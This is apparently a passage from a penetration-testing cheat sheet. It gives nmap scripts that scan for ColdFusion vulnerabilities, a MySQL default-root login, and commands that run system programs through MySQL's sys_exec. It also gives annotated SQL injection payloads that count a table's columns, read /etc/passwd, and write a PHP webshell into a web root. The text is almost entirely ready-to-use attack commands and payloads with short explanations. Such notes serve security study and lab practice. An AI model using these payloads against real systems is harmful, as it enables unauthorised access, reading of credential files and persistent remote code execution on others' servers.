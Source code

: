 * ColdFusion enumeration ([APSA13-01](https://nmap.org/nsedoc/scripts/http-adobe-coldfusion-apsa1301.html), [subzero](https://nmap.org/nsedoc/scripts/http-coldfusion-subzero.html), [CVE-2009-3960](https://nmap.org/nsedoc/scripts/http-vuln-cve2009-3960.html), [CVE-2010-2861](https://nmap.org/nsedoc/scripts/http-vuln-cve2010-2861.html))
``` sh
nmap -Pn -p 80 --script http-adobe-coldfusion-apsa1301,http-coldfusion-subzero,http-vuln-cve2009-3960,http-vuln-cve2010-2861 <ip>
```

* Excluding items from `searchsploit` results
```sh
searchsploit <query> | grep -v '/dos/'

# we may want to remove color from searchsploit via `--colour` so as to not confuse grep
```


## SQL Injection / Manipulation

* MySQL default login
``` sh
mysql -u root -proot <target>
```

* MySQL attempt system command execution ([helpful resource](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/))
``` sql
SELECT sys_exec('id');
SELECT sys_eval('id');
```

* (MySQL) Discover number of columns in a table via SELECT null enumeration
``` sql
SELECT * FROM my_table WHERE my_column='something' AND '0'='1' UNION SELECT null,null,null,null,null,null,null,null; --
                                       ^                                    ^                                          ^
                                       |                                    |           trailing space is important ___|
                                       |   enumerate on number of nulls ____|
 vulnerable queries let us inject _____|   until we hit some empty result
 after this position
```

* (MySQL) Read a file from the target via FILE privileges
``` sql
SELECT * FROM my_table WHERE my_column='something' AND '0'='1' UNION SELECT null,load_file('/etc/passwd'),null; --
```

* (MySQL) Writing a webshell to target file system via FILE privileges
``` sql
SELECT * FROM my_table WHERE my_column='something' AND '0'='1' UNION SELECT null,'<?php echo shell_exec($_GET[\'cmd\']); ?>',null INTO OUTFILE '/var/www/html/webshell.php'; --
                                                                                                               ^    ^
                                                                              escaping these is important _____|____|
```
